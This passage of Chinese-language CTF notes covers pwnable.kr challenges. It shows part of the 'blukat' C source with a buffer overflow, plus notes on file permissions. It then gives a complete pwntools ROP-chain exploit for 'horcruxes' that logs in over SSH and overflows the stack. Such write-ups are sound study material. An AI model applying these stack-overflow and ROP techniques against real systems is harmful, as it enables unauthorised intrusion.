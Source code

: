       FILE* fp = fopen("/home/blukat/password", "r");
      fgets(password, 100, fp);
      char buf[100];
      printf("guess the password!\n");
      fgets(buf, 128, stdin);   //128-112=16
      if(!strcmp(password, buf)){
              printf("congrats! here is your flag: ");
              calc_flag(password);
      }
      else{
              printf("wrong guess!\n");
              exit(0);
      }
      return 0;
  }

  ```
* 开启了canary。
* ls -al查看文件权限，password 文件只有 root 用户和 blukat_pwn 组内的用户可读。blukat本身就属于 blukat_pwn 组，拥有对 password 文件的读权限。
* password 内容为cat: password: Permission denied，容易被迷惑，可以使用xxd指令查看16进制内容。

### 20 horcruxes 
* solution
```python
from pwn import *
context.log_level = 'debug'
r = ssh('horcruxes','pwnable.kr',2222,'guest')
p = r.process("./horcruxes")
A_addr = 0x0809FE4B
call_A = 0x080A0044 # 不能使用，因为call指令会将下一条指令地址压栈，从而破坏rop链。
B_addr = 0x0809FE6A
C_addr = 0x0809FE89
D_addr = 0x0809FEA8
E_addr = 0x0809FEC7
F_addr = 0x0809FEE6
G_addr = 0x0809FF05
ropme_openflag_addr = 0x080A010B  #无法正常跳转，该地址不能使用，只能使用call_ropme的地址
call_ropme = 0x0809FFFC  
rop_shellcode = b'a'*(0x74+4)+p32(A_addr)+p32(B_addr)+p32(C_addr)+p32(D_addr)+p32(E_addr)+p32(F_addr)+p32(G_addr)+p32(call_ropme)  #多个返回地址相连压入栈中，函数返回ret时会依次跳转到这些地址执行。这些地址应该是函数的起始地址，而不是call函数的指令的地址。链上最后一个rop地址不影响。
p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')
p.sendline(rop_shellcode)
p.recvline()

sum = 0
for i in range(0,7):  # recv a ~ g
    res = p.recvline()
    recvdata = int(res.strip('\n').split('+')[1][:-1])
    log.info("The %d" % i)
    log.info("recvdata %d" % recvdata)
    sum += recvdata
p.recvuntil('Select Menu:')
p.sendline('1')
p.recvuntil('How many EXP did you earned? : ')
p.sendline(str(sum).encode())
p.recv()
p.close()
r.close()
```
